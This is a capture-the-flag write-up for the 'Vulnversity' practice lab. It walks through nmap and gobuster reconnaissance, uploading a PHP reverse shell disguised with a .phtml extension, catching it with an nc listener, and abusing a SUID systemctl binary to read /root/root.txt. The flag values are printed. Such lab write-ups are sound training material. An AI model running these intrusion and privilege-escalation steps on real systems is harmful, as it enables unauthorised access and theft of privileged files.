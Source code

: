 <center><h1>Vulneversity Write Up</h1></center>

# Task 1 ⇒ Deploy the machine
IP: ```10.10.255.221```
# Task 2⇒ Reconnaissance
```
┌─[root@parrot]─[/home/alexdos2010m]
└──╼ #nmap -sV -sC 10.10.255.221
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 11:11 IST
Nmap scan report for 10.10.255.221
Host is up (0.53s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m04s, deviation: 2h18m34s, median: 4s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-08-14T01:41:47-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T05:41:48
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

Scan the box, how many ports are open? `6`

What version of the squid proxy is running on the machine?`3.5.12`

How many ports will nmap scan if the flag **-p-400** was used? `400`

Using the nmap flag **-n** what will it not resolve? `DNS`

What is the most likely operating system this machine is running? `Ubuntu`

What port is the web server running on? `3333`
# Task 3⇒ Locating directories using GoBuster!!
```
┌─[alexdos2010m@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.255.221:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.221:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/14 11:31:08 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.255.221:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.255.221:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.255.221:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.255.221:3333/fonts/] 
/internal             (Status: 301) [Size: 324] [--> http://10.10.255.221:3333/internal/]
                                                                                         
===============================================================
2021/08/14 11:58:22 Finished
===============================================================
```
<!-- ![[form_internal.png]] -->
<img src = 'assets/img/form_internal.png'>
# Task 4⇒ Compromise the webserver
<img src = 'assets/img/burp_intercept.png'>
<!-- ![[burp_intercept.png]] -->
<img src = 'assets/img/intruder.png'>
<!-- ![[intruder.png]] -->
### Reverse PHP Shell:
<img src = 'assets/img/form_internal_phtml.png'>
<!-- ![[form_internal_phtml.png]] -->
[reverse PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
┌─[alexdos2010m@parrot]─[~/Downloads]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.18.32] from (UNKNOWN) [10.10.255.221] 40778
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:42:38 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
```
<img src = 'assets/img/task4.png'>
<!-- ![[task4.png]] -->

```
$ cd home
$ ls
bill
$ cd bill
$ ls
user.txt
```

`$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb`
# Task 5⇒ Privilege Escalation
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF> > 
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
```

`
$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
`